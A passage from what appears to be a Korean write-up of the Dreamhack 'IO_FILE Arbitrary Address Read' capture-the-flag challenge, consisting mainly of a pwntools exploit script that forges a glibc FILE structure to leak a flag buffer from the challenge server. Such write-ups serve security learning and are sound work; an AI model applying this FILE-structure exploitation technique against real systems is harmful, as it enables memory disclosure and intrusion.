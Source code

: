 즉, 이 코드는 **버퍼 오버플로우나 FILE 포인터 조작 같은 취약점을 실험하기 위한 예제** 느낌이 강함.

---

### [**exploit**](https://keyme2003.tistory.com/entry/dreamhack-IOFILE-Arbitrary-Address-Read#exploit-1)

```python
from pwn import *
import warnings

warnings.filterwarnings('ignore')

p = remote('host1.dreamhack.games', 18046)
#p = process("./iofile_aar")
elf = ELF('./iofile_aar')
flag_buf = elf.symbols['flag_buf']
payload = p64(0xfbad0000 | 0x800)
payload += p64(0) # _IO_read_ptr
payload += p64(flag_buf) # _IO_read_end
payload += p64(0) # _IO_read_base
payload += p64(flag_buf) # _IO_write_base
payload += p64(flag_buf + 300) # _IO_write_ptr
payload += p64(0) # _IO_write_end
payload += p64(0) # _IO_buf_base
payload += p64(0) # _IO_buf_end
payload += p64(0)
payload += p64(0)
payload += p64(0)
payload += p64(0)
payload += p64(0)
payload += p64(1) # stdout
p.sendlineafter(b"Data: ", payload)
p.interactive()
```
